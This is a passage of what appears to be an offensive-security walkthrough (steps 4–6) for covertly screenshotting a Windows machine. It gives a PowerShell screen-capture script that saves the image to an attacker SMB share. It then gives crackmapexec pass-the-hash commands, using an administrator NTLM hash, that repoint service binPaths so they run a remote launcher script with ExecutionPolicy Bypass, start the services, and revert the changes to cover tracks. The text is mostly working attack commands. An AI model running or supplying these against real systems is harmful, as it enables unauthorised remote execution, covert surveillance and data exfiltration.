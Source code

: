 ## (Step 4) Create the screenshot script under the samba share

In this example the script will be named `screenshot.ps1`

```powershell
Add-Type -AssemblyName System.Windows.Forms
Add-type -AssemblyName System.Drawing
$File = "\\192.168.1.19\smbdata\screenshot.png"
$Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen
$Width = $Screen.Width
$Height = $Screen.Height
$Left = $Screen.Left
$Top = $Screen.Top
$pngimg = New-Object System.Drawing.Bitmap $Width, $Height
$graphic = [System.Drawing.Graphics]::FromImage($pngimg)
$graphic.CopyFromScreen($Left, $Top, 0, 0, $pngimg.Size)
$pngimg.Save($File)
```

## (Step 5) Reconfigure and start the service

The binPath for the service you identified in step 1 will be changed to run your exploit scripts then it will be reverted back to normal.

**(reconfigure the service you chose - both example services shown)**<br />
`crackmapexec smb 192.168.1.242 -u administrator -d WIN10PRO -H a75001b474226887ca86ef09e1ae01ce --exec-method wmiexec -x 'sc config AppMgmt binPath= "cmd.exe /c start /min /b powershell -ExecutionPolicy Bypass -File \\192.168.1.19\smbdata\launcher.ps1"'`<br /><br />
`crackmapexec smb 192.168.1.242 -u administrator -d WIN10PRO -H a75001b474226887ca86ef09e1ae01ce --exec-method wmiexec -x 'sc config GoogleChromeElevationService binPath= "cmd.exe /c start /min /b powershell -ExecutionPolicy Bypass -File \\192.168.1.19\smbdata\launcher.ps1"'`<br /><br />
**(start the service - both example services shown)**<br />
`crackmapexec smb 192.168.1.242 -u administrator -d WIN10PRO -H a75001b474226887ca86ef09e1ae01ce --exec-method wmiexec -x 'sc start AppMgmt'`<br /><br />
`crackmapexec smb 192.168.1.242 -u administrator -d WIN10PRO -H a75001b474226887ca86ef09e1ae01ce --exec-method wmiexec -x 'sc start GoogleChromeElevationService'`<br /><br />
**(revert the binPath on the service - both example services shown)**<br />
`crackmapexec smb 192.168.1.242 -u administrator -d WIN10PRO -H a75001b474226887ca86ef09e1ae01ce --exec-method wmiexec -x 'sc config AppMgmt binPath= "C:\WINDOWS\system32\svchost.exe -k netsvcs -p"'`<br /><br />
`crackmapexec smb 192.168.1.242 -u administrator -d WIN10PRO -H a75001b474226887ca86ef09e1ae01ce --exec-method wmiexec -x 'sc config GoogleChromeElevationService binPath= "\"C:\Program Files (x86)\Google\Chrome\Application\74.0.3729.131\elevation_service.exe\""'`<br />

## (Step 6) Collect your loot
If everything executed properly and your samba share had guest write access enabled then you should see a PNG graphic file named `screenshot.png` in the upload directory.
